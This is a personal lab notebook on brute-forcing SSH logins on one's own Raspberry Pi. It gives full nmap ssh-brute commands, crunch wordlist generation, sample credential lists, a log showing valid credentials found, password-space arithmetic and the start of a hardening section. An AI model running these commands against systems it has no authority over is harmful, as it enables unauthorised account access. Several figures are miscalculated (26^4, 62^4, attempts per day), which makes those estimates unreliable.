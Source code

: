 # Brute Force Attack Raspberry Pi

## Ideas

- write a Python Script to generate passwords
- download a top XX list of the most common passwords
- use a tool to generate passwords

## Questions

- how long does it take to try 100/1000/10.000/1.000.000 passwords?
-

## User NMAP for brute force attack

```
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt --script-args unpwdb.timelimit=0 192.168.0.217
```

## Check if Port 22 is open

```
nmap -p 22 -open <RASPBERRY-PI-IP-ADDRESS>
```

## Create User File

users.txt:

```
user
admin
root
pi
```

## Create Password File

passwords.txt:

```
123456
root
admin
pi
passwort
```

## Generate Password File with Crunch

```
brew install crunch
```

Create file with generated passwords between 3 and 6 characters:

```
crunch 3 6 0123456789abcdef -o 6chars.txt
```

Run brute force attack:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt <RASPBERRY-PI-IP-ADDRESS>
```

Ergebnis:

```
nmap -p 22 --script ssh-brute --script-args userdb=u.txt,passdb=p.txt 192.168.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 16:23 CET
NSE: [ssh-brute] Trying username/password pair: foo:foo
NSE: [ssh-brute] Trying username/password pair: barz:barz
NSE: [ssh-brute] Trying username/password pair: leo:leo
foo
NSE: [ssh-brute] Trying username/password pair: foo:hi
hi
NSE: [ssh-brute] Trying username/password pair: barz:hi
NSE: [ssh-brute] Trying username/password pair: leo:hi
NSE: [ssh-brute] Trying username/password pair: foo:for
NSE: [ssh-brute] Trying username/password pair: barz:for
NSE: [ssh-brute] Trying username/password pair: leo:for
NSE: [ssh-brute] Trying username/password pair: foo:1234
NSE: [ssh-brute] Trying username/password pair: barz:1234
NSE: [ssh-brute] Trying username/password pair: leo:1234
Nmap scan report for raspberrypi (192.168.0.217)
Host is up (0.013s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     leo:1234 - Valid credentials
|_  Statistics: Performed 12 guesses in 9 seconds, average tps: 1.3

Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

NMAP with no time limit:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt,unpwdb.timelimit=0 192.168.0.217
```

http://blog.wenzlaff.de/?p=16896

Anzahl Möglichkeiten:

- a-z: 26^4 = 456972
- a-z & A-Z 52^4 = 7311616
- a-z & A-Z & 0-9 = 13845841

## Combinatorics

Why is the math behind this important?

- characters: 1 / character-set: 0-9 = 10 possible passwords
- characters: 2 / character-set: 0-9 = 10^2 = 100 possible passwords (100 pw attempts / min. = 1 min.)
- characters: 3 / character-set: 0-9 = 10^3 = 1.000 possible passwords (100 pw attempts / min. = 10 min.)
- characters: 4 / character-set: 0-9 = 10^4 = 10.000 possible passwords (100 pw attempts / min. = 100 min. ~ 1,5h)
- characters: 5 / character-set: 0-9 = 10^5 = 100.000 possible passwords (100 pw attempts / min. = 6.000 pw attempts / h = 48.000 / day ~ 2 days)
- characters: 6 / character-set: 0-9 = 10^6 = 1.000.000 possible passwords (100 pw attempts / min. = 6.000 pw attemtps / h = 48.000 / day ~ 20 days)
- ...
- characters: 6 / character-set: a-z A-Z 0-9 = (26+26+10)^6 = 62^6 = 56.800.235.584 possible passwords (100 pw attemps / min. = 6.000 pw attempts / h = 48k / day = 17.520.000 / year ~ 3242 years)

-> <CHARACTER-SET> ^ <NUMBER-OF-CHARACTERS>

Further reading: https://www.scientificamerican.com/article/the-mathematics-of-hacking-passwords/

# Lessons Learned
  
- Brute force attacks do not scale if the password and the used alphabet have a sufficient size
- Trying all username/password combinations is hard
- Don't try stupid things before doing the math
  
# Harden Raspberry Pi

## Firewall

### Install

https://www.blog.berrybase.de/blog/2022/02/23/den-raspberry-pi-absichern/#:~:text=Linux%20hat%20hierf%C3%BCr%20die%20Firewall,Befehl%20aus%20Code%2016%20installieren

